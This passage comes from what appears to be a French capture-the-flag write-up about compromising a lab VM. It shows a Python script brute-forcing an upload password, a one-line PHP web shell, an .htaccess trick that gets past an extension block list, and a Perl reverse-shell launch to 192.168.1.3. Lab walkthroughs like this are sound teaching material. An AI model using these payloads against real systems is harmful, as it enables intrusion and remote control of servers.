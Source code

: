 ```python
  i = i + 1
  r = requests.post("http://192.168.1.39/dev/upload.php",
          data={'password':word},
          files={'upload_file':('test','a')})
  if "you have supplied an invalid password" in r.content:
    continue
  else:
    print "Cas particulier avec", word
    print r.content
    break

fd.close()
```

Il faut alors récupérer une bonne quantité de wordlists et prendre son temps en patiente avant de tomber sur le bon mot de passe. Finalement on obtient le sésame : *45100*.  

On écrit le fichier bd.php que voici :  

```php
<?php system($_GET["cmd"]); ?>
```

puis on l'uploade... Sauf qu'on obtient le message *"Error: illegal file detected."*. Idem avec .php3, .php5, .phtml etc.
Visiblement le script a une liste d'extensions blacklistées pour nous embêter. Et son on essayait de réécrire les directives d'Apache en uploadant un fichier *.htaccess* qui associerait une extension originale au langage PHP ?  

```python
import requests
r = requests.post("http://192.168.1.39/dev/upload.php",
        data={'password':'45100'},
        files={'upload_file':('.htaccess','AddType application/x-httpd-php .yo')})
print r.content
```

Badaboum ! Nice guy take that ! Ça passe :D  

On change l'extension de notre backdoor en *.yo* et l'upload passe nickel.  

![Backdoor PHP en action](https://raw.githubusercontent.com/devl00p/blog/master/images/xerxes2.png)  

Maintenant ce serait bien d'avoir un shell, même s'il est basique. Alors on upload la backdoor Perl connect-back de *Data Cha0s* puis on la lance de cette manière :  

```plain
perl dc.pl 192.168.1.3 9999
```
